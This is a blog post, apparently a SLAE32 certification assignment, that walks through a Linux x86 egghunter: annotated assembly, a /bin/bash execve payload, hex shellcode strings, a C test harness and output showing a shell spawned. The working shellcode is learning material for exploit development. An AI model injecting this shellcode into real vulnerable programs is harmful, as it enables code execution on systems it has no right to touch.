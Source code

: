 ```yaml
---
title: SLAE32 Assignment 3 - Egghunter Shellcode
date: 2019-8-18
layout: single
classes: wide
tags:
  - egghunter
  - execve
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
---
```

![](/assets/images/SLAE32.png)
## Overview
For our third assignment in the SLAE32 course we were tasked with creating an `egghunter`.  
What is an Egg Hunter?   
+ An Egghunter is a piece of injectable shellcode that will search the memory of the running program for the a specific, larger payload. 
+ Once the Egghunter finds the larger payload, it will pass program control to it by executing it.  

The larger payload that our Egghunter will search for and execute will be the `execve-stack` shellcode provided in the SLAE32 course.  

## Egghunter Assembly Code
```nasm
; Filename: eggHunter.asm
; Author:   boku
global _start
_start:
; Configure Egg in EBX
  mov ebx, 0x50905090
; Clear EAX, ECX, EDX
  xor ecx, ecx         ; Clears the ECX Register. 
  mul ecx              ; ECX*EAX. Result is stored in EDX:EAX. 
; Jump here to move forward a memory page
nextPage:              ; Increments the memory address stored in EDX by 4096 Bytes (a memory page)
  or dx, 0xfff         ; 0xfff = 4096. This is the size of Linux Memory pages.
; Jump here to move forward 4 bytes on a memory page
nextAddress:           ; Increments the memory address stored in EDX by 4 Bytes 
  inc edx              ; in combo with the or dx above, this moves the memory scanner EDX by a page
                       ; in combo with the cmp [edx+0x4] below, this aligns EDX so it will scan the
                       ;  next memory address
 ; 4095*2=8190+1=8191. 
 ;                                      --> (inc edx) 4095+1  -->  (inc edx) 8191+1
 ; or dx when edx is: \x00000000        |   \x00001000 = 4096 |    \x00002000 = 8192
 ;               OR   \x00000FFF        |   \x00000FFF = 4095 |    \x00000FFF = 4095
 ;          RESULTS:  \x00000FFF = 4095--   \x00001FFF = 8191--    \x00002FFF = 12287

; Save the registers before accept() system-call because they will be altered after the call
 pusha                 ; Pushes all 16-bit registers onto the stack
 lea ebx, [edx+0x4]    ; Increments the Memory Address of EDX by 4 Bytes.
                       ;  Stores the value stored at EDX+4 into the EBX register
 mov al, 0x21          ; System Call for accept() 
 int 0x80              ; Executes accept()
; Check if memory page is accessible
 cmp al, 0xf2          ; The return value of accept() is stored in EAX. 
                       ;  Checks if access is denied
; Load the registers that were stored onto the stack

 popa                  ; Pops all 16-bit registers from the stack
; if accept() could not access the memory page, go to the next page
 jz nextPage           ; If page access is denied, check the next memory page 
; if accept() could access the memory page, 
;  check if the egg is in the first memory location on the page
 cmp [edx], ebx
; if the egg is not there, then increment our location 
;  on the page by 1 byte and check there
 jnz nextAddress
; if the egg is there, check the next for bytes to make 
;  sure it is our payload and not the egghunter itself.
 cmp [edx+0x4], ebx
; if the egg isn't there then it is a fluke or 
;  is our egghunter. Check the next address.
 jnz nextAddress
; if the egg is there twice, then we found our payload. 
;  Jump to the memory location on that page
;  and transfer control to our payload.
 jmp edx
```

## Compiling and Testing the EggHunter
### Compiling the EggHunter Assembly Code
```nasm 
root# nasm -f elf32 eggHunter.asm -o eggHunter.o
root# ld -z execstack eggHunter.o -o eggHunter
```

### Compiling a Payload for the EggHunter to Find
#### SLAE32 Execve-Stack `/bin/bash` Shellcode
```nasm
; Filename: execve-stack.nasm
; Author:  Vivek Ramachandran
; Website:  http://securitytube.net
; Training: http://securitytube-training.com

global _start

section .text
_start:

; PUSH the first null dword
xor eax, eax
push eax
; PUSH ////bin/bash (12)
push 0x68736162
push 0x2f6e6962
push 0x2f2f2f2f
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 11
int 0x80
```
#### Compiling the Payload
```console
t# nasm -f elf32 execve-stack.nasm -p execve-stack.o
root# ld -z execstack execve-stack.o -o execve-stack
```

#### Testing the Payload
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./execve-stack 
root# ps -p $$
  PID TTY          TIME CMD
  584 pts/5    00:00:00 bash
```

### Testing the EggHunter in a Host Program
#### Grabbing the Hex for the Execve Shellcode
```console
root# objdump -d execve-stack | grep '[0-9a-f]:' | grep -v 'file' | \
> cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
> sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | \
> sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f"
"\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
#### Grabbing the Hex from our EggHunter Shellcode
```console
root# objdump -d eggHunter | grep '[0-9a-f]:' | grep -v 'file' | \
> cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
> sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | \
> sed 's/^/"/' | sed 's/$/"/g'
"\xbb"
"\x90\x50\x90\x50"  # Our Egg
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21"
"\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9"
"\xff\xe2"
```
#### Host Program in C
```c
// Filename: testEggHunter.c
// Author:   boku
#include <stdio.h>
#include <string.h>
// This is the egg for our eggHunter
// the egg should be 4 bytes and be executable
#define egg "\x90\x50\x90\x50"

// Put two eggs in front of our payload
// This allows our eggHunter to find it in memory
unsigned char payload[] =
egg
egg
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f"
"\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// Replace the hardcoded egg with a variable.
// This allows us to easily change the egg for our eggHunter.
unsigned char egghunter[] =
"\xbb"
egg
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21"
"\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9"
"\xff\xe2";

// This program will run our egghunter.
// Our eggHunter will search memory until it finds 2 eggs.
// Once the payload is found it will pass control to the payload.

int main()
{
    printf("Memory Location of Payload: %p\n", payload);
    printf("Size of Egghunter:          %d\n", strlen(egghunter));
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

#### Compiling the Host Program 
```c
root# gcc testEggHunter.c -o testEggHunter -fno-stack-protector -z execstack
```

#### Testing the EggHunter in the Host Program
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./testEggHunter 
Memory Location of Payload: 0x804a040
Size of Egghunter:          39
root# ps -p $$
  PID TTY          TIME CMD
 3048 pts/5    00:00:00 bash
```
+ Before we run our program we get the Program ID of our bash shell.
  - Our `bash` PID is 14383.
+ After running our eggHunter we check to see that it found our payload, and spawned a new bash shell.
  - Our `bash` PID is now 3048. 
  - We have successfully spawned a new bash shell.

## SLAE32 Blog Proof
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```

